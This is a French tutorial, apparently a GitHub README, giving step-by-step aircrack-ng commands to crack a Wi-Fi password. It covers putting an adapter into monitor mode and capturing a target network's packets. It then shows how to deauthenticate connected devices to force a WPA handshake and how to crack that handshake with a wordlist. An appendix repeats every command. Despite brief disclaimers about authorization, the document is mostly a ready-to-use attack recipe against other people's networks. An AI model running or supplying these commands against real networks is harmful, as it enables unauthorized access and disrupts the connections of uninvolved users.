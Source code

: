 ### Tutoriel : Commandes pour Hacker un Mot de Passe Wi-Fi

#### Introduction
Ce tutoriel vous guidera à travers les étapes nécessaires pour utiliser Kali Linux pour pirater un mot de passe Wi-Fi. Il est important de noter que ce guide est destiné à des fins éducatives et éthiques seulement. Assurez-vous d'avoir l'autorisation appropriée avant de tester ces techniques sur un réseau.

#### Prérequis
- Kali Linux installé sur une machine virtuelle (VMware) ou directement sur un PC.
- Un adaptateur sans fil compatible avec l'injection de paquets (par exemple, Alfa AWUS036ACH).
- Connexion internet pour télécharger les outils nécessaires.

#### Étapes

1. **Démarrer Kali Linux et ouvrir la ligne de commande**
    - Ouvrez votre machine virtuelle ou votre PC avec Kali Linux installé.
    - Accédez à la ligne de commande.

2. **Vérifier la disponibilité de votre adaptateur sans fil**
    ```bash
    ifconfig
    ```
    - Vous devriez voir votre adaptateur sans fil répertorié (généralement sous `wlan0`).

3. **Activer le mode moniteur**
    ```bash
    airmon-ng start wlan0
    ```
    - Remplacez `wlan0` par l'interface correspondant à votre adaptateur sans fil.

4. **Lister les réseaux Wi-Fi disponibles**
    ```bash
    airodump-ng wlan0mon
    ```
    - Prenez note du BSSID et du canal (CH) du réseau cible.

5. **Capturer les paquets du réseau cible**
    ```bash
    airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
    ```
    - Remplacez `[channel]` par le canal du réseau cible.
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Remplacez `[output_file]` par le nom de fichier de sortie souhaité.

6. **Déauthentifier un appareil du réseau pour capturer le handshake**
    ```bash
    aireplay-ng --deauth 10 -a [BSSID] wlan0mon
    ```
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Cela forcera un appareil à se reconnecter, permettant de capturer le handshake.

7. **Vérifier la capture du handshake**
    ```bash
    aircrack-ng [output_file].cap
    ```
    - Remplacez `[output_file]` par le nom de fichier de sortie précédemment spécifié.

8. **Craquer le mot de passe avec un fichier de mots de passe**
    ```bash
    aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
    ```
    - Remplacez `[wordlist]` par le chemin vers votre fichier de mots de passe.
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Remplacez `[output_file]` par le nom de fichier de sortie.

#### Conclusion
En suivant ces étapes, vous pouvez tester la sécurité de votre propre réseau Wi-Fi. Rappelez-vous, utiliser ces techniques sans autorisation est illégal et contraire à l'éthique. Utilisez vos connaissances de manière responsable.

---
# Annexe

### Résumé des Commandes pour Pirater un Mot de Passe Wi-Fi

1. **Vérifier l'adaptateur sans fil**
   ```bash
   ifconfig
   ```

2. **Activer le mode moniteur**
   ```bash
   airmon-ng start wlan0
   ```

3. **Lister les réseaux Wi-Fi disponibles**
   ```bash
   airodump-ng wlan0mon
   ```

4. **Capturer les paquets du réseau cible**
   ```bash
   airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
   ```

5. **Déauthentifier un appareil du réseau**
   ```bash
   aireplay-ng --deauth 10 -a [BSSID] wlan0mon
   ```

6. **Vérifier la capture du handshake**
   ```bash
   aircrack-ng [output_file].cap
   ```

7. **Craquer le mot de passe avec un fichier de mots de passe**
   ```bash
   aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
   ```

Remplacez les termes entre crochets `[ ]` par les valeurs appropriées :
- `[channel]` : Canal du réseau cible.
- `[BSSID]` : BSSID du réseau cible.
- `[output_file]` : Nom du fichier de sortie pour la capture des paquets.
- `[wordlist]` : Chemin vers votre fichier de mots de passe.

---
#### Références supplémentaires
- [Configurer votre nouvel adaptateur sans fil](https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57)
- https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57
- [Vidéo YouTube sur le piratage Wi-Fi](https://www.youtube.com/watch?v=bzCAMWP1G1U)

Pour toute question ou besoin de clarification supplémentaire, n'hésitez pas à demander!

